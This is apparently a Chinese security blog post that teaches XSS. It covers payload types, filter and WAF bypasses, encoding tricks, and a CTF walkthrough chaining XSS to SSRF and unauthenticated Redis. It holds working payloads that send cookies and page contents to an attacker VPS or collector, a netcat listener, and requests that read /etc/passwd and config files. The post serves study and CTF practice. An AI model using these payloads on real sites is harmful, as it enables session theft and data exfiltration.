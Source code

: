 ```yaml
---
layout:     post
title:      xss漏洞
date:       2018-12-28
author:     Wh0ale
header-img: img/jade_by_wlop-d9n5wvp.jpg
catalog: true
tags:
    - xss
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyp4d6xll2j20ye0dy403.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fys1velc7qj210y0w6acr.jpg)

# 0x01 什么是XSS漏洞

XSS全称跨站脚本(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS，比较合适的方式应该叫做跨站脚本攻击。

跨站脚本攻击是一种常见的web安全漏洞，它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

## 一、 XSS分类

> 反射型（非持久型）
> 存储型（持久型）
> DOM型
> 不常见的XSS:
> mXSS 突变型XSS
> UXSS 通用型XSS
> Flash XSS
> UTF-7 XSS
> MHTML XSS
> CSS XSS
> VBScript XSS

**存储型**

存储型XSS也叫持久型XSS，存储的意思就是Payload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS。

**反射型**

反射型XSS也叫非持久型XSS，最常见的是Payload是构造在网址的某个GET参数的值里。

**DOM 型**

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

## 二、 xss bypass

### 检测过滤情况

用于有字符限制的短探测器
 `'';!--"<XSS>=&{()}`
 完全版探测器
 `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`

### 观察输出位置

#### 1.标签之间

```
模型： <div>[xss]</div> payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
这些标签有：
<a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
       
自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
<textarea></textarea> <title></title> <iframe></iframe> <noscript></noscript> <noframes></noframes> <xmp></xmp> <plaintext></plaintext> 其他：<math></math>也不行
```

#### 2.js标签之间

在该位置，空格被过滤，可用/**/代替空格。输出在注释中，通过换行符%0a %0d使其逃逸出来。

##### (1)不在字符串内

判断<>/是否被过滤。如果没有，那么直接插入就可以。

```
<script>
[output]
</script>
payload：</script><script>alert(1)</script>
```

##### (2)在字符串中

此时需要闭合字符串，并保证插入的JS代码符合语法规范。

```
<script>
Var x="Input";
</script>
```

 input是输出点，我们首先要闭合双引号，才能保证XSS成功。如果我们无法闭合包括字符串的引号（引号被转义），就很难利用，除非存在两个输出点或宽字节。(详见参考资料)

#### 3.输出在HTML属性内

##### (1)文本属性中

例如：`<input value="输出"> 、 <img onload="...[输出]..."> ，再比如 <body style="...[输出]...">`

**无引号包裹，直接添加新的事件属性。**

**有引号包括。首先测试引号是否可用，可用则闭合属性之后添加新的事件属性。**

> HTML的属性，如果被进行HTML实体编码(形如'&#x27)，那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造payload。当然，也可以闭合属性后，然后再执行脚本。

##### (2)src/href/action/xlink:href/autofocus/content/data 等属性

直接使用伪协议绕过。

```
javascript 伪协议： <a href=javascript:alert(2)>test</a>
data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)
urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)
不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
<math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
```

##### (3)on*事件中

 插入合乎逻辑的JS代码即可。也可以使用伪协议。

```
onload 
onclick
onunload 
onchange 
onsubmit 
onreset 
onselect 
onblur 
onfocus 
onabort 
onkeydown 
onkeypress 
onkeyup 
ondbclick 
onmouseover 
onmousemove 
onmouseout 
onmouseup 
onforminput 
onformchange 
ondrag 
ondrop
```

### 绕过waf

**单次过滤规则绕过：**`<scr<script>ipt>`
**大小写绕过：**<sCript>
**alert绕过：**可以尝试prompt和confirm
**没有斜杠：**`<IMG SRC=javascript:alert('XSS')>`
**空格被过滤：**`<img/src=""onerror=alert(2)>` `<svg/onload=alert(2)></svg>`
**长度限制时：**
 (1)`<q/oncut=alert(1)>`
 (2)

```
<script>z=’document.’</script> <script>z=z+’write(“‘</script> <script>z=z+’<script’</script> <script>z=z+’ src=ht’</script> <script>z=z+’tp://ww’</script>
<script>z=z+’w.shell’</script> <script>z=z+’.net/1.’</script> <script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script> <script>eval_r(z)</script>
```

单引号及双引号被过滤情况：`<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`
 **javascript伪协议：**

```
<a href="javascript:alert(/test/)">xss</a>
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
```

**畸形payload：**

``` 
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

**括号被过滤,可以使用throw来抛出数据**

```
<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```

**当=();:被过滤时：**

过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b;

 **拼凑法：**① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点

```
<scri<!-- 第二处-->pt>;
```

无法使用href：

```
<a onmouseover="alert(document.cookie)">xxs link</a>
在chrome下，其回补全缺失的引号。因此，也可以这样写：
<a onmouseover=alert(document.cookie)>xxs link</a>
```

### 编码

JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。
 1.js16进制

```
<script>eval(“js+16进制加密”)</script> <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script> 编码要执行的语句↓
Alert(“xss”)
```

2.js unicode

```
<script>eval("unicode加密")</script> //js unicode加密 解决alert()被过滤
<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
```

3.String.fromCharCode函数（不需要任何引号，必须函数内）

```
<script>eval(String.fromCharCode编码内容))</script> <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
```

4.jsfuck版本

```
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
```

>　　这是一个黑客奇葩的想法。
>
>　　在黑客行为中，你的js代码可能被关键词检测，于是考虑躲避关键词检测的想法，例如 eval等关键词。
>
>　　1、想了各种方法来规避这个检测。
>
>　　2、把方法写成通用的程序。
>
>　　3、把包含的字符做到极致，最后只剩下 ()+[]!  这六个字符。
>
> 这段代码来着于这个网站转码得到：<http://www.jsfuck.com/>   
>
>这里是它的百科，感兴趣可以去了解下：<https://en.wikipedia.org/wiki/JSFuck>
>
>1、脚本注入时防止过滤
>
>2、一定程度加密关键代码（生成代码很长，不适合加密大量代码。只能一定程度上加密，不能依赖）
>
>3、装逼用（我最中意的用途）
>
>结论：转换后本质依然是javascript，通过javascript的一些性质来生成，具体实现可以看这里的代码<https://github.com/aemkei/jsfuck>

5.HTML编码

```
<img src='1' onerror='aler&#x0074;(1)'>
```

6.base64编码（仅data支持）

```
     <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
     格式：
     Data:<mime type>,<encoded data>
     Data //协议
     <mime type> //数据类型
     charset=<charset>  //指定编码
     [;base64] //被指定的编码
     <encoded data> //定义data协议的编码
     特点：不支持IE
```



# 0x02 非基于Web的XSS注射

**PowerDNS Recursor** 

在我们的演讲中，Chris提到他在一个流行的DNS软件中发现了一个不常见的XSS，所以我决定从它开始强调网络并不总是唯一的攻击媒介。

PowerDNS Recursor是一款高端，高性能的解析名称服务器，可为至少1亿用户的DNS解析提供支持。Recursor是两个名称服务器产品之一，其主要目标是充当解析DNS服务器。


一个[详细的演练](https://blog.fortinet.com/2017/12/02/powerdns-recursor-html-script-injection-vulnerability-a-walkthrough)解释它是如何可能通过使用命令行工具挖一个DNS查询来注入XSS有效载荷：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/dig.png)



而这又在Web UI中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/powerdns.png)



**Symantec SSL Toolbox**这是我在三年前在Symantec的SSL证书测试程序中找到并报告的已修复漏洞。此[免费在线服务](https://cryptoreport.websecurity.symantec.com/checker/)用于从给定URL的x509 SSL证书中提取和显示值，信任其内容，而无需清理字段中的数据。


因此，我在不同的字段中创建了一个值为“<script> alert（document.cookie）; </ script>”的SSL证书，并将其安装在Web服务器的前面：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec.png)



分析此类证书的结果是正在执行的JavaScript代码：

![ximg](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec-xss.png)



**RATS（安全性粗略审计工具）**由CERN计算机安全部门开发，[RATS](https://security.web.cern.ch/security/recommendations/en/codetools/rats.shtml)是一个非常好的静态代码分析工具。我喜欢它并且已经使用它多年了。然而，最后一个版本可以追溯到2013年12月，现在可能没有维护，但不确定。


去年我在火车上很无聊，发现这个无用的XSS。RATS收到一个包含源代码的文件夹，并创建一个包含结果的HTML报告，其中还包括所分析文件的名称，因此攻击向量非常明显。我在其名称中创建了一个包含JavaScript代码的文件：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats.png)



分析之后，注入的JavaScript将在报告中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats-xss.png)



# 0x03 CTF赛题

[XSS的威力：从XSS到SSRF再到Redis](https://www.anquanke.com/post/id/156377)

## **1.xssme**

payload：

```
<svg/onload="document.location='http://vps_ip:23333'">
```

vps：

```
nc -l -vv -p 23333
```

收获flag

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+document.cookie">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypr96reo5j20jc07ojst.jpg)

解码后得到

```
PHPSESSID=9crkuhdqs9b1jkslebpieprr86; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert
```



## **2.xssrf leak**

xss去本地访问，再将页面内容打出来

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+btoa(document.body.innerHTML)">
```

**编码绕过**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypreygzbrj20lz0a1dmd.jpg)

**解码后保存到本地html里打开**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprfv1be7j20re0lcmyx.jpg)

发现多了一个send request的功能，跟过去看代码发现多了一个send request的功能，跟过去看代码
[![img](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)

没错，是多了一个request.php
那么结合题目意思，应该是有ssrf，我想应该就是利用这里的request.php了吧
那么继续去读这个页面的html

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","request.php",true);
xmlhttp.send();
">
```



经过编码后发送，得到
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprjod9cbj21e6076n0h.jpg)同样解码后发现代码
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprkntdnjj21900h2jsr.jpg)应该xss的点就是在这里了
于是尝试file协议读`/etc/passwd`

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprlccny8j2178182k0b.jpg)发现成功读取了`/etc/passwd`
那么我们回想到最初的文件

```
User-agent: *
Disallow: /config.php
Disallow: /you/cant/read/config.php/can/you?
Disallow: /backup.zip
```

于是直接读config.php

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprly0fcwj21b012en16.jpg)cool，于是我们拿到了第二个flag

```
FLAG{curl -v -o flag --next flag://in-the.redis/the?port=25566&good=luck}
```

## **3. xssrf redis**

只剩下最后一步打redis了

这里很容易就想到了gopher未授权访问打redis
上一题提示我们redis再25566端口，于是我们尝试访问一下

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=gopher://127.0.0.1:25566/_info%250a_quit");
">
```

于是愉快的打出信息，发现果然是未授权访问
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypro47h7hj20w211o0vi.jpg)那么看看key有哪些

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_KEYS%2520*%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprovnhvtj20nq0vm75o.jpg)发现了flag
然后我们尝试读取

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_get%2520flag%250a_quit");
```

发现报错
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprpnzlqij21020eaab5.jpg)发现类型错误了
那我们看看类型

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_type%2520flag%250a_quit");
```

[![img](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)

发现是个list
那我们看看长度

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_llen%2520flag%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprrfqsanj20qg0kut9v.jpg)发现是53
那我们可以愉快的读取list了

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_lrange%2520flag%25200%252053%250a_quit");
```

[![img](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)

我们把它拼接起来

[![img](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)so cool
得到最后的flag

```
FLAG{Rediswithout authentication is easy to exploit}
```











































